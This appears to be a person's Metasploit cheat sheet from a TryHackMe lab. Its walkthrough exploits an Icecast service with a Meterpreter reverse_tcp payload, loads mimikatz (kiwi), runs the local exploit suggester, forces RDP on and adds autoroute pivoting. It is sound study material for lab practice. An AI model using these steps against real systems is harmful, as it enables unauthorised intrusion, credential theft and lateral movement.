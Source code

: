 First use metasploit
```bash
msfdb init
```

help
```bash
msfconsole -h

msf5 > help
```

checking DB
```bash
msf5 > db_status
```

make quick connection to host
```bash
msf5 > connect [options] <host> <port>
```
## Module
Search module
```bash
msf5 > search <module>
```

Use module
```bash
msf5 > use <module>
```

Load module
```bash
msf5 > load <module>
```

Check module info
```bash
msf5 > info <module>
```

use module with search
```bash
msf5 > search multi/handler
Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence
   6  exploit/multi/handler                                                 manual     No     Generic Payload Handler

msf5 > use 6
```

![](https://imgur.com/vKe4ZDj.png)

Major modules:
* Exploit : most common
* Payload : shellcode
* Encoder : in payload obfuscation, avoid signature detection
* NOP : buffer overflow
* Auxiliary : scanning & verification
* Post : looting & pivoting
## Variable

Change value of variable
```bash
msf5 > set <value>
```

Change value of variable globally
```bash
msf5 > setg <value>
```

get value of variable 
```bash
msf5 > get <value>
```

change value to null/no value
```bash
msf5 > unset <value>
```

save console output to a file
```bash
msf5 > spool
```

store setting 
```baSh
mfs5 > save
```

## Example1

run nmap & feed result to db
(-sV : detect the version of services running)
```bash
msf5 > db_nmap -sV <ip>
```

check hosts information in db
```bash
msf5 > hosts
```

check hosts 's services in db
```bash
msf5 > services
```

check hosts 's vulnerablilities
```bash
msf5 > vulns
```

connecting to it with metasploit payload
```bash
msf5 > use icecast
```

search & use  multi/handler
```bash
msf5 > search multi/handler
msf5 > use NUMBER_NEXT_TO_exploit/multi/handler
```

set variables
```bash
msf5 > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 > set LHOST <YOUR_IP_ON_TRYHACKME>
```

return previous exploit
```bash
msf5 > use icecast
```

set attack target
```bash
msf5 > set RHOSTS 10.10.8.33
```

run exploit
`expoit` or `run -j`

check running jobs
```bash
msf5 > jobs
```

check sessions & attack
```bash
msf5 > sessions
msf5 > sessions -i 2
```

transfer ourself to process
```bash
msf5 > migrate <PID>
```

get user info & system info & user privileges
```bash
msf5 > getuid
msf5 > sysinfo
msf5 > getprivs
```

load mimikatz
```bash
msf5 > load kiwi
```


check vm
```bash
msf5 > run post/windows/gather/checkvm
```

check exploit suggester
```bash
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.204.88 - Collecting local exploits for x86/windows...
[*] 10.10.204.88 - 34 exploit checks are being tried...
[+] 10.10.204.88 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.204.88 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

```


forcing RDP to be avaliable (need administrator)
```bash
msf5 > run post/windows/manage/enable_rdp
```

check autorouting options : help menu
```bash
msf5 > run autoroute -h
```

autoroute add subnet (`172.18.1.0/24`)
```bash
msf5 > run autoroute -s 172.18.1.0 -n 255.255.255.0
```

KEYWORDS:
1. icecast
2. multi/handler

